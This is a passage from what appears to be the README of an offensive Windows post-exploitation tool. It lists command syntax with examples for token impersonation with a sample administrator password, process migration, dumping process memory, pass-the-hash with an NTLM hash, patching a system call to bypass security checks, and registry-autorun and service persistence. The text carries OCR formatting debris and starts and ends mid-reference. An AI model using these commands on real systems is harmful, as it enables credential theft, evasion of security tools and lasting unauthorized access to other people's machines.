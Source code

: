 
`maketoken "Administrator" "DOMAIN" "Password123"`

#### MigrateProcess

Migrates a current process to a different parent.

`- **<target pid>**: `Target parent process ID.
`- **<current pid>**: `Current process ID to migrate.

yaml

`migrateprocess 1234 4321`

#### Minidump

Generates a minidump of a specified process memory.

`- **<pid>**: `Process ID.
`- **<path to dump>**: `Path where the dump file will be saved.



`minidump 1234 "C:\Path\To\DumpFile.dmp"`

#### PassTheHash

Executes a pass-the-hash attack using provided NTLM hash values.

`- **<username>**: `Username for the attack.
`- **<domain>**: `Domain for the username.
`- **<ntlm hash>**:` NTLM hash value.



`passthehash "Administrator" "DOMAIN" "aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c"`

#### PatchSyscall

Patches a system call to bypass security checks.

- **<syscall number/name>**: System call identifier.



`patchsyscall NtProtectVirtualMemory`

#### PersistenceAutorun

Sets up persistence via the Autorun registry key.

`- **<path to payload>**:` Path to the executable payload.
`- **<registry key name>**:` Name for the registry key.



`persistenceautorun "C:\Path\To\Payload.exe" "PayloadKeyName"`

#### PersistenceService

Sets up persistence by creating a new service.

`- **<service name>**: `Name of the new service.
`- **<path to service binary>**:` Full path to the service binary.
